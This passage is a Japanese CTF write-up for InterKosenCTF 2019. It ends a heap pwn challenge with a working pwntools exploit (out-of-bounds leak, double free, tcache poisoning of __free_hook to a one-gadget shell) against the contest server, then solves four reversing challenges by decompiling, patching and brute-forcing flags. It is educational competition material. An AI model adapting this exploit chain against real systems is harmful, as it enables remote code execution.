3. Look for foster parents
4. Release them into the wild
================================
> 1
You found a kitten!
Name: mike
================================
1. Find a feral kitten
2. Feed a kitten
3. Look for foster parents
4. Release them into the wild
================================
> 1
You found a kitten!
Name: shiro
```

子猫を見つけたり (`malloc`)、

```
================================
1. Find a feral kitten
2. Feed a kitten
3. Look for foster parents
4. Release them into the wild
================================
> 2
Which one?
+-------------------------------+
 0 - mike
 1 - shiro
+-------------------------------+
> 0
mike: Meow!
```

子猫に餌を与えたり、

```
================================
1. Find a feral kitten
2. Feed a kitten
3. Look for foster parents
4. Release them into the wild
================================
> 3
Which one?
+-------------------------------+
 0 - mike
 1 - shiro
+-------------------------------+
> 0
mike: Meow!
================================
1. Find a feral kitten
2. Feed a kitten
3. Look for foster parents
4. Release them into the wild
================================
> 2
Which one?
+-------------------------------+
 0 - shiro
+-------------------------------+
```

子猫の里親を見つける (`free`) ことができるプログラムのようです。[Ghidra](https://ghidra-sre.org/) でデコンパイルしてみましょう。

```c
ulong readline(char *buf,int max_size)

{
  int iVar1;
  ulong uVar2;
  
  uVar2 = read(0,buf,(long)max_size);
  iVar1 = (int)uVar2;
  if (iVar1 == 0) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  if (buf[(long)iVar1 + -1] == '\n') {
    buf[(long)iVar1 + -1] = 0;
  }
  return uVar2 & 0xffffffff;
}

void list_kittens(void)

{
  uint i;
  
  puts("+-------------------------------+");
  i = 0;
  while ((int)i < count) {
    printf(" %d - %s\n",(ulong)i,*(undefined8 *)(kittens + (long)(int)i * 8));
    i = i + 1;
  }
  puts("+-------------------------------+");
  return;
}

int readint(void)

{
  long lVar1;
  int res;
  long in_FS_OFFSET;
  char user_input [8];
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  readline(user_input,7);
  res = atoi(user_input);
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return res;
}

int menu(void)

{
  int iVar1;
  
  puts("================================");
  puts("1. Find a feral kitten");
  puts("2. Feed a kitten");
  puts("3. Look for foster parents");
  puts("4. Release them into the wild");
  puts("================================");
  printf("> ");
  iVar1 = readint();
  return iVar1;
}

// 1
void find_kitten(void)

{
  int iVar1;
  ulong uVar2;
  void *pvVar3;
  
  if (count < 10) {
    puts("You found a kitten!");
    printf("Name: ");
    uVar2 = readline(name,0x7f);
    pvVar3 = malloc((long)(int)uVar2);
    *(void **)(kittens + (long)count * 8) = pvVar3;
    strcpy(*(char **)(kittens + (long)count * 8),name);
    count = count + 1;
  }
  else {
    puts("You have too many kittens to take care of.");
  }
  return;
}

// 2
void feed_kitten(void)

{
  int iVar1;
  
  puts("Which one?");
  list_kittens();
  printf("> ");
  iVar1 = readint();
  if (iVar1 < count) {
    printf("%s: Meow!\n",*(undefined8 *)(kittens + (long)iVar1 * 8));
  }
  else {
    puts("There\'s no such kitten...");
  }
  return;
}

// 3
void foster(void)

{
  int iVar1;
  
  puts("Which one?");
  list_kittens();
  printf("> ");
  iVar1 = readint();
  if (iVar1 < count) {
    count--;
    printf("%s: Meow!\n",*(undefined8 *)(kittens + (long)iVar1 * 8));
    free(*(void **)(kittens + (long)iVar1 * 8));
    *(undefined8 *)(kittens + (long)iVar1 * 8) = *(undefined8 *)(kittens + (long)count * 8);
  }
  else {
    puts("There\'s no such kitten...");
  }
  return;
}

void main(void)

{
  int iVar1;
  
  setup();
  do {
    while( true ) {
      while( true ) {
        while (iVar1 = menu(), iVar1 == 2) {
          feed_kitten();
        }
        if (2 < iVar1) break;
        if (iVar1 == 1) {
          find_kitten();
        }
      }
      if (iVar1 != 3) break;
      foster();
    }
  } while (iVar1 != 4);
  puts("Bye bye!");
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

子猫は 10 匹まで保護することができるようですが、よく見るとこのカウントのチェックにバグがあります。例として子猫に餌をあげる `feed_kitten` を見てみましょう。

```c
void feed_kitten(void)

{
  int iVar1;
  
  puts("Which one?");
  list_kittens();
  printf("> ");
  iVar1 = readint();
  if (iVar1 < count) {
    printf("%s: Meow!\n",*(undefined8 *)(kittens + (long)iVar1 * 8));
  }
  else {
    puts("There\'s no such kitten...");
  }
  return;
}
```

ユーザが入力した数値を返す `readint` は `atoi` が使われている (= 負数が返ってくる可能性がある) にも関わらず、`if (iVar1 < count) {` とその上限しか確認していません。このため、負数を入力すると、`kittens` より前に存在しているアドレスについても文字列として読み込ませることができます。これを利用して、GOT の `__libc_start_main` を指す `0x400538` から `kitten` のアドレスを引いて 8 で割った値を入力することで、`__libc_start_main` のアドレスを取得でき、libc が読み込まれているアドレスを計算することができます。

このバグは `foster` にも存在しています。`kittens` の直前には `name` と呼ばれるバッファ (子猫を見つけた時の `find_kitten` で名前が書き込まれる) が存在しており、いずれもアドレスは固定なので、これを利用すれば、`find_kitten` で `name` に `kittens` のアドレスを書き込む → `feed_kittens` で負数を入力して先程書き込んだアドレスを読み込むという流れでヒープのアドレスを取得したあと、このアドレスと `foster` を使うことで Double Free もできそうです。

この Double Free を使って好きなアドレスに書き込むことができないでしょうか。色々ググっていると、作問者の [ptr-yudai](https://twitter.com/ptrYudai) さんによる [SECCON Beginners CTF 2019 の BabyHeap という問題の write-up](https://ptr-yudai.hatenablog.com/entry/2019/05/26/150937) がヒットしました。この記事を参考に、tcache poisoning で `__free_hook` を One-gadget RCE に向けてみましょう。

```python
from pwn import *

elf = ELF('./chall')
rop = ROP(elf)
libc = ELF('./libc-2.27.so')
offset_one_gadget_rce = 0x4f322
s = remote('pwn.kosenctf.com', 9005)

addr_kitten = 0x6020a0

# stage1: get libc base address
s.sendafter('> ', '2')
s.sendafter('> ', str((0x400538 - addr_kitten) // 8))

addr_libc_start_main = u64(s.recvline().split(':')[0].ljust(8, '\0'))
libc_base = addr_libc_start_main - libc.symbols['__libc_start_main']
print 'libc_base:', hex(libc_base)

# stage2: overwrite __free_hook with one-gadget rce
s.sendafter('> ', '1')
s.sendafter('Name: ', 'A') # *1
s.sendafter('> ', '1')
s.sendafter('Name: ', p64(addr_kitten))
s.sendafter('> ', '2')
s.sendafter('> ', str((elf.symbols['name'] - addr_kitten) // 8)) # leak *1 address

addr_allocated1 = u64(s.recvline().split(':')[0].ljust(8, '\0'))

s.sendafter('> ', '1')
s.sendafter('Name: ', p64(addr_allocated1))
s.sendafter('> ', '3')
s.sendafter('> ', '0')
s.sendafter('> ', '3')
s.sendafter('> ', str((elf.symbols['name'] - addr_kitten) // 8)) # double free

s.sendafter('> ', '1')
s.sendafter('Name: ', p64(libc_base + libc.symbols['__free_hook']))
s.sendafter('> ', '1')
s.sendafter('Name: ', 'A')
s.sendafter('> ', '1')
s.sendafter('Name: ', p64(libc_base + offset_one_gadget_rce)) # write address to __free_hook

s.sendafter('> ', '3')
s.sendafter('> ', '0') # fire!

s.interactive()
```

```
$ python2 solver.py
︙
libc_base: 0x7f8f203ac000
[*] Switching to interactive mode
`b�: Meow!
$ ls
chall
flag.txt
redir.sh
$ cat flag.txt
KosenCTF{00b_4nd_tc4ch3_p01s0n1ng}
```

フラグが得られました。

```
KosenCTF{00b_4nd_tc4ch3_p01s0n1ng}
```

## Reversing
### basic crackme (227)
> Crackme is a challenge to get the input which satisfies the constraints.
> 
> 添付ファイル: basic_crackme.tar.gz

`basic_crackme.tar.gz` を展開すると `crackme` というファイルが出てきました。どのようなファイルか `file` コマンドで確認してみましょう。

```
$ file crackme
crackme: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=3dca344245681e2c75d9588284830d858770c1e0, for GNU/Linux 3.2.0, not stripped
```

x86-64 の ELF のようです。[Ghidra](https://ghidra-sre.org/) でデコンパイルしてみましょう。

```c
int main(int argc,char **argv)

{
  long lVar1;
  size_t len;
  long in_FS_OFFSET;
  uint flag;
  int i;
  int encrypted [40];
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  if (argc < 2) {
    printf("<usage> %s: <flag>\n",*argv);
  }
  else {
    encrypted[0] = 0xb4;
    encrypted[1] = 0xf7;
    encrypted[2] = 0x39;
    encrypted[3] = 0x59;
    encrypted[4] = 0xea;
    encrypted[5] = 0x39;
    encrypted[6] = 0x4b;
    encrypted[7] = 0x6b;
    encrypted[8] = 0xbf;
    encrypted[9] = 0x80;
    encrypted[10] = 0x3d;
    encrypted[11] = 0xd1;
    encrypted[12] = 0x42;
    encrypted[13] = 0x10;
    encrypted[14] = 0xe4;
    encrypted[15] = 0x42;
    encrypted[16] = 0x105;
    encrypted[17] = 0x58;
    encrypted[18] = 0x15;
    encrypted[19] = 0x108;
    encrypted[20] = 0xab;
    encrypted[21] = 0x18;
    encrypted[22] = 0xe8;
    encrypted[23] = 0xcd;
    encrypted[24] = 0x1b;
    encrypted[25] = 0xeb;
    encrypted[26] = 0x51;
    encrypted[27] = 0x1e;
    encrypted[28] = 0x111;
    encrypted[29] = 0x44;
    encrypted[30] = 0x51;
    encrypted[31] = 0x86;
    encrypted[32] = 0x53;
    encrypted[33] = 0x48;
    encrypted[34] = 0x59;
    encrypted[35] = 0x36;
    encrypted[36] = 0x10a;
    encrypted[37] = 0x9b;
    encrypted[38] = 0xfd;
    flag = 0;
    i = 0;
    while (len = strlen(argv[1]), (ulong)(long)i < len) {
      flag = flag | ((((int)argv[1][(long)i] & 0xfU) << 4 | (int)(argv[1][(long)i] >> 4)) + i) -
                    encrypted[(long)i];
      i = i + 1;
    }
    if (flag == 0) {
      puts("Yes. This is the your flag :)");
    }
    else {
      printf("Try harder!");
    }
  }
  if (lVar1 == *(long *)(in_FS_OFFSET + 0x28)) {
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

与えられたコマンドライン引数をエンコードした結果が `encrypted` (と私が便宜上名前をつけたバイト列) と一致しているか確認しているようです。`encrypted` を元の文字列に戻してみましょう。

```python
encrypted = [0xb4,0xf7,0x39,0x59,0xea,0x39,0x4b,0x6b,0xbf,0x80,0x3d,0xd1,0x42,0x10,0xe4,0x42,0x105,0x58,0x15,0x108,0xab,0x18,0xe8,0xcd,0x1b,0xeb,0x51,0x1e,0x111,0x44,0x51,0x86,0x53,0x48,0x59,0x36,0x10a,0x9b,0xfd]
res = ''
for i, c in enumerate(encrypted):
  res += chr((((c - i) & 0xf) << 4) | ((c - i) >> 4))
print(res)
```

```
$ python3 solve.py
KosenCTF{w3lc0m3_t0_y0-k0-s0_r3v3rs1ng}
```

フラグが得られました。

```
KosenCTF{w3lc0m3_t0_y0-k0-s0_r3v3rs1ng}
```

### magic function (263)
> Rumor has it that three simple functions may generate the flag.
> 
> 添付ファイル: magic_function.tar.gz

`magic_function.tar.gz` を展開すると `chall` というファイルが出てきました。どのようなファイルか `file` コマンドで確認してみましょう。

```
$ file ./chall
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=7f3589666f4eca86aca6d787459c5ae93987bb59, not stripped
```

x86-64 の ELF のようです。[Ghidra](https://ghidra-sre.org/) でデコンパイルしてみましょう。

```c
int main(int argc,char **argv)

{
  char cVar1;
  char cVar2;
  char *user_input;
  int i;
  
  if (1 < argc) {
    i = 0;
    user_input = argv[1];
    while (*user_input != 0) {
      if (i < 8) {
        cVar1 = *user_input;
        cVar2 = f1();
        if (cVar1 != cVar2) goto LAB_0040087d;
      }
      else {
        if (i < 0x10) {
          cVar1 = *user_input;
          cVar2 = f2();
          if (cVar1 != cVar2) goto LAB_0040087d;
        }
        else {
          cVar1 = *user_input;
          cVar2 = f3((ulong)(i - 0x10));
          if (cVar1 != cVar2) goto LAB_0040087d;
        }
      }
      user_input = user_input + 1;
      i = i + 1;
    }
    if (i == 0x18) {
      puts("OK");
      return 0;
    }
  }
LAB_0040087d:
  puts("NG");
  return 1;
}
```

与えられたコマンドライン引数について、1 文字ずつ `f1` (8 文字目まで)、`f2` (9 文字目から 16 文字目まで)、`f3` (17 文字目以降) の返り値と比較しているようです。

コマンドライン引数は一切いじられていないようなので、`f1` `f2` `f3` それぞれの返り値だけを見ればよさそうです。ある文字が誤っていてもその後の処理を継続させられるよう、分岐を行っている命令の条件を逆にしてしまいましょう。バイナリエディタを使って、`0x40080d` と `0x40082d` の `jz` は `jnz` に、`0x400847`　はその逆にします。

gdb を使って `f1` `f2` `f3` が呼ばれた直後にブレークポイントを置き、実行してみます。

```
$ gdb ./chall_modified 
Reading symbols from ./chall_modified...(no debugging symbols found)...done.
gdb-peda$ b *0x40080d
Breakpoint 1 at 0x40080d
gdb-peda$ b *0x40082d
Breakpoint 2 at 0x40082d
gdb-peda$ b *0x400847
Breakpoint 3 at 0x400847
gdb-peda$ r }}}}}}}}}}}}}}}}}}}}}}}}
[----------------------------------registers-----------------------------------]
RAX: 0x4b ('K')
︙
gdb-peda$ c
[----------------------------------registers-----------------------------------]
RAX: 0x6f ('o')
︙
```

`RAX` レジスタにフラグの n 文字目が入っています。これを 24 文字分続けるとフラグが得られました。

```
KosenCTF{fl4ggy_p0lyn0m}
```

### passcode (357)
> The flag is protected by passcode
> 
> 添付ファイル: passcode.tar.gz

`passcode.tar.gz` を展開すると `crackme` というファイルが出てきました。どのようなファイルか `file` コマンドで確認してみましょう。

```
$ file passcode.exe
passcode.exe: PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows
```

32 bit の .NET の PE ファイルのようです。[dnSpy](https://github.com/0xd4d/dnSpy) を使ってデコンパイルしてみましょう。

```csharp
using System;
using System.Collections.Generic;
using System.ComponentModel;
using System.Drawing;
using System.Linq;
using System.Runtime.CompilerServices;
using System.Windows.Forms;

namespace passcode
{
	// Token: 0x02000002 RID: 2
	public class Form1 : Form
	{
		// Token: 0x06000001 RID: 1 RVA: 0x00002050 File Offset: 0x00000250
		public Form1()
		{
			this.InitializeComponent();
			IEnumerable<char> arg_31_0 = "231947329526721682516992571486892842339532472728294975864291475665969671246186815549145112147349184871155162521147273481838";
			Func<char, int> arg_31_1;
			if ((arg_31_1 = Form1.<>c.<>9__4_0) == null)
			{
				arg_31_1 = (Form1.<>c.<>9__4_0 = new Func<char, int>(Form1.<>c.<>9.<.ctor>b__4_0));
			}
			this.correct_state = arg_31_0.Select(arg_31_1).ToList<int>();
			this.debug();
			this.reset();
		}

		// Token: 0x06000002 RID: 2 RVA: 0x000020AC File Offset: 0x000002AC
		private void reset()
		{
			this.vars = new List<int>
			{
				1,
				2,
				3,
				4,
				5,
				6,
				7,
				8,
				9
			};
			this.indices = new List<int>();
			this.state = new List<int>();
		}

		// Token: 0x06000003 RID: 3 RVA: 0x0000211C File Offset: 0x0000031C
		private void shuffle()
		{
			int num = 0;
			foreach (int current in this.state)
			{
				num = num * 10 + current;
			}
			Random random = new Random(num);
			for (int i = 0; i < 9; i++)
			{
				int index = random.Next(9);
				int value = this.vars[i];
				this.vars[i] = this.vars[index];
				this.vars[index] = value;
			}
		}

		// Token: 0x06000004 RID: 4 RVA: 0x000021CC File Offset: 0x000003CC
		private void push(int index)
		{
			this.indices.Add(index);
			this.state.Add(this.vars[index]);
			this.shuffle();
			if (this.state.SequenceEqual(this.correct_state))
			{
				string text = "";
				for (int i = 0; i < this.indices.Count / 3; i++)
				{
					text += ((char)(this.indices[i * 3] * 64 + this.indices[i * 3 + 1] * 8 + this.indices[i * 3 + 2])).ToString();
				}
				MessageBox.Show(text, "Correct!");
			}
		}

		// Token: 0x06000005 RID: 5 RVA: 0x00002284 File Offset: 0x00000484
		private void Button1_Click(object sender, EventArgs e)
		{
			int index = int.Parse(((Button)sender).Name.Substring(6)) - 1;
			this.push(index);
		}

		// Token: 0x06000006 RID: 6 RVA: 0x000022B1 File Offset: 0x000004B1
		private void Button10_Click(object sender, EventArgs e)
		{
			this.reset();
		}

		// Token: 0x06000007 RID: 7 RVA: 0x000022B9 File Offset: 0x000004B9
		private void debug()
		{
		}

		// Token: 0x06000008 RID: 8 RVA: 0x000022BB File Offset: 0x000004BB
		protected override void Dispose(bool disposing)
		{
			if (disposing && this.components != null)
			{
				this.components.Dispose();
			}
			base.Dispose(disposing);
		}

		// Token: 0x06000009 RID: 9 RVA: 0x000022DC File Offset: 0x000004DC
		private void InitializeComponent()
		{
			this.button1 = new Button();
			// (省略)
			this.button10 = new Button();
			base.SuspendLayout();
			this.button1.Location = new Point(18, 41);
			this.button1.Name = "button1";
			this.button1.Size = new Size(64, 64);
			this.button1.TabIndex = 0;
			this.button1.Text = "1";
			this.button1.UseVisualStyleBackColor = true;
			this.button1.Click += new EventHandler(this.Button1_Click);
			// (省略)
			this.button10.Location = new Point(147, 12);
			this.button10.Name = "button10";
			this.button10.Size = new Size(75, 23);
			this.button10.TabIndex = 9;
			this.button10.Text = "RESET";
			this.button10.UseVisualStyleBackColor = true;
			this.button10.Click += new EventHandler(this.Button10_Click);
			base.AutoScaleDimensions = new SizeF(6f, 12f);
			base.AutoScaleMode = AutoScaleMode.Font;
			this.AutoSize = true;
			base.ClientSize = new Size(240, 261);
			base.Controls.Add(this.button10);
			// (省略)
			base.Controls.Add(this.button1);
			base.FormBorderStyle = FormBorderStyle.FixedToolWindow;
			base.Name = "Form1";
			this.Text = "Enter the passcode";
			base.ResumeLayout(false);
		}

		// Token: 0x04000001 RID: 1
		private readonly List<int> correct_state;

		// Token: 0x04000002 RID: 2
		private List<int> vars;

		// Token: 0x04000003 RID: 3
		private List<int> indices;

		// Token: 0x04000004 RID: 4
		private List<int> state;

		// Token: 0x04000005 RID: 5
		private IContainer components;

		// Token: 0x04000006 RID: 6
		private Button button1;

		// (省略)

		// Token: 0x0400000F RID: 15
		private Button button10;

		// Token: 0x02000006 RID: 6
		[CompilerGenerated]
		[Serializable]
		private sealed class <>c
		{
			// Token: 0x06000014 RID: 20 RVA: 0x000029B2 File Offset: 0x00000BB2
			internal int <.ctor>b__4_0(char c)
			{
				return (int)(c - '0');
			}

			// Token: 0x04000013 RID: 19
			public static readonly Form1.<>c <>9 = new Form1.<>c();

			// Token: 0x04000014 RID: 20
			public static Func<char, int> <>9__4_0;
		}
	}
}
```

実行すると 1 ~ 9 の 9 つのボタンが表示され、ボタンを押すたびに `push` というメソッドが呼ばれ、この中で `state` というフィールドに押したボタンに対応する数字が追加され、これが `correct_state` と一致していれば (= 正しい順番で押されれば) フラグが表示されるプログラムのようです。

`vars` というフィールドが「押したボタンに対応する数字」の対応表のようですが、これはボタンを押すたびに押したボタンの数字をシードとして、乱数を使ってシャッフルされるようです。

dnSpy にはデコンパイルされたコードを編集し、それを再コンパイルできる機能があります。これを使って自動で正解のボタンを押してくれるように改造しましょう。まずこれまでにボタンを押した回数を記録する、`iii` という名前の `int` 型で初期値が `0` のフィールドを追加します。続いて、以下のように `push` が呼ばれた時に正解の数字を `state` に追加するよう改造します。

```csharp
using System;
using System.Collections.Generic;
using System.ComponentModel;
using System.Linq;
using System.Runtime.CompilerServices;
using System.Windows.Forms;

namespace passcode
{
	// Token: 0x02000002 RID: 2
	public partial class Form1 : Form
	{
		public // Token: 0x06000004 RID: 4
		void push(int index)
		{
			index = this.vars.IndexOf(this.correct_state[this.iii]);
			this.indices.Add(index);
			this.state.Add(this.vars[index]);
			this.shuffle();
			MessageBox.Show(string.Join("", this.state.Select(x => x.ToString())), "nyan");
			if (this.state.SequenceEqual(this.correct_state))
			{
				string text = "";
				for (int i = 0; i < this.indices.Count / 3; i++)
				{
					text += ((char)(this.indices[i * 3] * 64 + this.indices[i * 3 + 1] * 8 + this.indices[i * 3 + 2])).ToString();
				}
				MessageBox.Show(text, "Correct!");
			}
			this.iii++;
		}
	}
}
```

この状態で再コンパイルし、ボタンを押し続けるとフラグが表示されました。

```
KosenCTF{pr3tty_3asy_r3v3rsing_cha11enge}
```

### favorites (357)
> What is your favorite? My favorite is ...
> 
> 添付ファイル: favorites.tar.gz

`favorites.tar.gz` を展開すると `favorites` というファイルが出てきました。どのようなファイルか `file` コマンドで確認してみましょう。

```
$ file favorites
favorites: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=04682a5ac5fd6fb11c8f04408891974576f47ce1, for GNU/Linux 3.2.0, not stripped
```

x86-64 の ELF のようです。[Ghidra](https://ghidra-sre.org/) でデコンパイルしてみましょう。

```c
int main(void)

{
  long lVar1;
  int iVar2;
  long in_FS_OFFSET;
  ushort state;
  uint i;
  int j;
  ushort hash [16];
  char user_input [14];
  char hash_string [28];
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  state = 0x1234;
  puts("Do you know");
  puts(" --- the FLAG of this challenge?");
  puts(" --- my favorite anime?");
  puts(" --- my favorite character?");
  putchar(10);
  printf("Input your guess: ");
  __isoc99_scanf("%s",user_input);
  i = 0;
  while ((int)i < 0xe) {
    state = f((ulong)(byte)user_input[(long)(int)i],(ulong)i,(ulong)state,(ulong)i);
    hash[(long)(int)i] = state;
    i = i + 1;
  }
  hash_string._0_8_ = 0;
  hash_string._8_8_ = 0;
  hash_string._16_8_ = 0;
  stack0xffffffffffffffc0 = 0;
  j = 0;
  while (j < 0xe) {
    sprintf(hash_string + (long)(j << 2),"%04x",(ulong)hash[(long)j]);
    j = j + 1;
  }
  iVar2 = strcmp(hash_string,first); // 62d57b27c5d411c45d67a3565f84bd67ad049a64efa694d624340178
  if (iVar2 == 0) {
    printf("Congrats! The flag is KosenCTF{%s}!\n",user_input);
  }
  else {
    iVar2 = strcmp(hash_string,second); // 62b64d65828570c33b25e1e54065524571a54d7583556d76b1767c759036
    if (iVar2 == 0) {
      puts("Wow! Let\'s see it together now!");
    }
    else {
      iVar2 = strcmp(hash_string,third); // 62c64af7db4839d7eeb3d5363e85bb35e826ec56abd5e7d523956bb5
      if (iVar2 == 0) {
        puts("Yes! Do you like too this?");
      }
      else {
        puts("No! You are not interested in me, are you?");
      }
    }
  }
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

ユーザ入力をハッシュ化した結果が `first` `second` `third` になればそれぞれ用意されたメッセージが出力されるようです。ユーザ入力は 1 バイト単位でハッシュ化されており、ハッシュ化の値は 2 バイトでそれまでの入力に依存しているようです。

`ltrace` を使って `strcmp` の引数を観測することで得られるハッシュ化後の文字列を使って、頭から 1 文字ずつ `first` の元の文字列を特定していきましょう。

```python
import re
from subprocess import *
encrypted = re.findall(r'.{4}', '62d57b27c5d411c45d67a3565f84bd67ad049a64efa694d624340178')
res = ''
for i in range(14):
  for c in range(0x20, 0x7f):
    p = Popen(['ltrace', '-s', '100', './favorites'], stdin=PIPE, stdout=PIPE, stderr=PIPE)
    h = re.findall(r'strcmp\("(.+?)"', p.communicate(res + chr(c) + '\n')[1])[0]
    if re.findall(r'.{4}', h)[i] == encrypted[i]:
      res += chr(c)
      print i, res
      break
```

```
$ python2 solve.py
0 B
1 Bl
2 Bl0
3 Bl00
4 Bl00m
5 Bl00m_
6 Bl00m_1
7 Bl00m_1n
8 Bl00m_1n7
9 Bl00m_1n70
10 Bl00m_1n70_
11 Bl00m_1n70_Y
12 Bl00m_1n70_Y0
13 Bl00m_1n70_Y0u
$ ./favorites 
Do you know
 --- the FLAG of this challenge?
 --- my favorite anime?
 --- my favorite character?

Input your guess: Bl00m_1n70_Y0u
Congrats! The flag is KosenCTF{Bl00m_1n70_Y0u}!
```

[フラグ](https://www.youtube.com/watch?v=Q-1fKFEqL1Y)が得られました。

```
KosenCTF{Bl00m_1n70_Y0u}
```

## Survey
### Survey (212)
> Please give us your feedback here (Google フォームへのリンク).

アンケートに答えるとフラグが得られました。

```
KosenCTF{th4nk_y0u_f0r_pl4y1ng_InterKosenCTF_2019}
```